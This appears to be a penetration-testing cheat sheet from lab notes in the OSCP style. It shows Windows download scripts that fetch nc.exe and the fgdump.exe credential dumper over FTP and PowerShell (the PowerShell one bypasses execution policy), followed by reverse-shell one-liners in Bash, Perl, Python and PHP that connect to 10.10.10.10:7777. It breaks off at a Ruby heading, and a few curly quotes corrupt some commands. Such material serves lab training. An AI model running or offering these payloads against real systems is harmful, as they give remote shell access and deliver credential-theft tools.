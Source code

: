 ### Windows FTP 
```sh
echo USER>> ftp.txt 
echo offsec>>ftp.txt 
echo lab123>>ftp.txt
echo binary>>ftp.txt
echo get nc.exe>> ftp.txt 
echo bye>> ftp.txt 
ftp -v -n -s:ftp.txt 10.10.10.10
```

### PowerShell

```sh
echo $storageDir = $pwd > wget.ps1 
echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
echo $url = "http://10.10.10.10/fgdump.exe" >>wget.ps1 
echo $file = "new.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


# Reverse Shells


Bash
```sh
bash -i >& /dev/tcp/10.10.10.10/7777 0>&1

sh -i >& /dev/tcp/10.10.10.10/7777 0>&1
```


PERL

```sh
perl -e 'use Socket;$i="10.10.10.10";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10”,7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP

```sh
php -r '$sock=fsockopen("10.10.10.10”,7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
